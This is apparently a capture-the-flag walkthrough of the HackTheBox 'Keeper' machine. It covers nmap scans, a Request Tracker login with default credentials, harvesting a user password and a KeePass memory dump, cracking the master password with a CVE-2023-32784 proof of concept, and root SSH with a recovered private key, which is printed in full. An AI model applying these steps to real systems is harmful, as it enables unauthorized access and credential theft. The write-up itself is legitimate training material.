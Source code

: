 - ping machine
	- `ping ###.###.###.###**,**`
```bash
 kali@kali  ~  ping 10.10.11.227
PING 10.10.11.227 (10.10.11.227) 56(84) bytes of data.
64 bytes from 10.10.11.227: icmp_seq=1 ttl=63 time=57.7 ms
64 bytes from 10.10.11.227: icmp_seq=2 ttl=63 time=56.6 ms
64 bytes from 10.10.11.227: icmp_seq=3 ttl=63 time=53.6 ms
64 bytes from 10.10.11.227: icmp_seq=4 ttl=63 time=54.1 ms
^C
--- 10.10.11.227 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3005ms
rtt min/avg/max/mdev = 53.590/55.480/57.659/1.693 msb
```

- nmap for open ports
	- `nmap -p- -T4 --open -Pn -vvv ###.###.###.### -oN nameNmap.txt`
	- document
```bash
 kali@kali  ~  nmap -p- -T4 --open -Pn -vvv 10.10.11.227 -oN keeperNmap.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-18 08:20 EST
Initiating SYN Stealth Scan at 08:20
Scanning tickets.keeper.htb (10.10.11.227) [65535 ports]
Discovered open port 80/tcp on 10.10.11.227
Discovered open port 22/tcp on 10.10.11.227
Completed SYN Stealth Scan at 08:20, 17.33s elapsed (65535 total ports)
Nmap scan report for tickets.keeper.htb (10.10.11.227)
Host is up, received user-set (0.11s latency).
Scanned at 2025-01-18 08:20:33 EST for 17s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 17.44 seconds
           Raw packets sent: 66287 (2.917MB) | Rcvd: 65687 (2.627MB)
```

- nmap for services and versions running on open ports
	- `nmap -p port#, port#, port# -sC -sV ###.###.###.### -oN nameServicesVersionsNmap` 
```bash
 ✘ kali@kali  ~  nmap -p 22,80 -sC -sV 10.10.11.227 -oN keeperNmapServicesVersions.txt 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-18 08:22 EST
Nmap scan report for tickets.keeper.htb (10.10.11.227)
Host is up (0.069s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.11 seconds

```

- With http running we navigate to 10.10.11.227 and find a link
- ![[Pasted image 20250118082729.png]]
	- clicking the link we are met with 
	- ![[Pasted image 20250118083057.png]]
	- adding keeper.htb, tickets.keeper.htb to /etc/hosts file
	```bash
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters
10.10.11.221    2million.htb edge-eu-free-1.2million.htb
10.10.11.189    precious.htb
10.10.10.84     poison.htb
10.10.11.227    tickets.keeper.htb keeper.htb
```
	- now 10.10.11.227 resolves to tickets.keeper.htb/rt
	- ![[Pasted image 20250118083838.png]]
	- Top right corner RT for tickets.keeper.htb  - Request Tracker 
		- ![[Pasted image 20250118084435.png]]
	- bottom right corner software by Best Practical
		- version for RT 4.4.4 
		- ![[Pasted image 20250118084530.png]]
	- Searching web for `request tracker default credentials ` reveals 
		- root / password default creds
		- Also here, step 7 - https://docs.bestpractical.com/rt/4.2.8/README.html
		- ![[Pasted image 20250118085037.png]]
	- Using root / password to login - we access the admin dashboard
		- ![[Pasted image 20250118085608.png]]
	- Admin --> Users 
	- sf
	- lnorgaard / New user. Initial password set to Welcome2023!
	- ssh'ing into lnorgaard with Welcome2023!
	- catting user.txt `5c201f63e112df52c4da45a369c867b9`
	- In home directory is RT30000.zip
		- unzipping produces KeePassDumpFull.dmp and passcodes.kdbx
		- With these 2 files we can take advantage of CVE-2023-32784
	- I scp'd the files down from the machine we're attacking to my kali
		- `$ scp lnorgaard@10.10.11.227:/home/lnorgaard/KeePassDumpFull.dmp KeePassDumpFull.dmp`
		- `$ scp lnorgaard@10.10.11.227:/home/lnorgaard/passcodes.kdbx passcodes.kdbx`
	- Then we need to run poc on KeePassDumpFull.dmp to generate the master password 
		- [KeePass dump masterkey](https://github.com/matro7sh/keepass-dump-masterkey)
		- from the output the master password appears to end in med flode
		- google search reveals a Danish red berry pudding with the name rodgod med flode 
		```bash
kali@kali  ~/htb/keeper  python3 poc.py -d KeePassDumpFull.dmp
2025-01-24 05:39:40,212 [.] [main] Opened KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de		
```
	- Installing keepassxc and opening 
		- using password `rødgrød med fløde` 
		- under network tab on right
			- keeper.htb with root as user
			- under general tab is a putty-user-key-file
			- ![[Pasted image 20250124065056.png]]
	- saving the putty-user-key-file to a file called keeperRootPuttyKeyFile.txt
```bash
PuTTY-User-Key-File-3: ssh-rsa 
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0`
```
- Create open ssh key with puttygen
```bash
kali@kali  ~/htb/keeper  puttygen keeperRootPuttyKeyFile.txt -O private-openssh -o id_rsa_keeper
```
- login to root with ssh key
```bash
 kali@kali  ~/htb/keeper  ssh root@10.10.11.227 -i id_rsa_keeper                                        
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64) 
```
- home directory has the root.txt flag
```bash
root@keeper:~# ll                                                       
total 85384                                                             
drwx------  5 root root     4096 Jan 20 17:37 ./                        
drwxr-xr-x 18 root root     4096 Jul 27  2023 ../                       
lrwxrwxrwx  1 root root        9 May 24  2023 .bash_history -> /dev/null                                  
-rw-r--r--  1 root root     3106 Dec  5  2019 .bashrc                                                     
drwx------  2 root root     4096 May 24  2023 .cache/                                                     
-rw-------  1 root root       20 Jul 27  2023 .lesshst                                                    
lrwxrwxrwx  1 root root        9 May 24  2023 .mysql_history -> /dev/null                                 
-rw-r--r--  1 root root      161 Dec  5  2019 .profile                                                    
-rw-r-----  1 root root       33 Jan 20 17:37 root.txt                                                    
-rw-r--r--  1 root root 87391651 Jul 25  2023 RT30000.zip                                                 
drwxr-xr-x  2 root root     4096 Jul 25  2023 SQL/                                                        
drwxr-xr-x  2 root root     4096 May 24  2023 .ssh/                                                       
-rw-r--r--  1 root root       39 Jul 20  2023 .vimrc                                                      
root@keeper:~# whoami                                                                                     
root                                                                                                      
root@keeper:~# cat root.txt                                                                               
6430171cabc2e4f3ca55d20c8e8f364f
```


















